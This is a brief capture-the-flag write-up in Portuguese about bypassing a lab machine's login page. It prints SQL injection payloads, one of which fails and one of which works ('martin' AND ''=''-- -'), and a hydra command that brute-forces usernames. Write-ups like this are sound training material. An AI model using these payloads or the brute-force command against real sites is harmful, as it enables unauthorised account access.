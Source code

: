 # _**Lesson Learned**_
![](learn.jpg)

## _**Enumeração**_
Devido a natureza da sala, vamos acessar a página ```http://[ip_address]```  
Devemos passar da página de login  
Vamos primeiro tentar um SQL Injection com: ```' || '1'='1';-- -```

![](sql_failed.jpg)

Parece que vamos ter que reiniciar a máquina  
Vamos tentar de outra maneira  
Após algum tempo pensando, foi decidido tentear _brute force_, mesmo sem lista de nomes de usuários  
> ```bash
> hydra -L ../seclists/Usernames/xato-net-10-million-usernames.txt -p test [ip_address] http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
> ```
Após um tempo, foi decidido tentar uma abordagem diferente de ```OR```
Tentando ```martin' AND ''=''-- -```, temos:

![](login_bypass.jpg)

Temos a flag!
